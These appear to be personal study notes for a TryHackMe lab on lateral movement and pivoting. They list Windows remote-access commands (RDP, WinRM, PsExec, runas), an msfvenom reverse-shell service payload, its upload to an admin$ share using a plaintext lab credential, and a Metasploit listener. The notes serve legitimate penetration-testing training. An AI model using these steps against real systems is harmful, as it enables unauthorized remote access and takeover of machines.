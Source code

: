 # Reference
- https://tryhackme.com/r/room/lateralmovementandpivoting

# Notes 

# Commands 
~~~
xfreerdp /u:<uname>  /p:<pwd> /v:<ip>
~~~


~~~
$username = '<uname>';
$password = <pwd>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
~~~


~~~
winrs.exe -u:<uname> -p:<pwd> -r:target cmd
~~~

~~~
psexec64.exe \\<MACHINE_IP> -u <uname> -p <pwd> -i cmd.exe
~~~

~~~
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ipaddress> LPORT=4444 -o <file>
~~~

~~~
smbclient -c 'put blitz.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
~~~


~~~
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST <netadapter>; set LPORT 4444; 
~~~


~~~
runas /netonly /user:<domain>\<user> cmd.exe
~~~
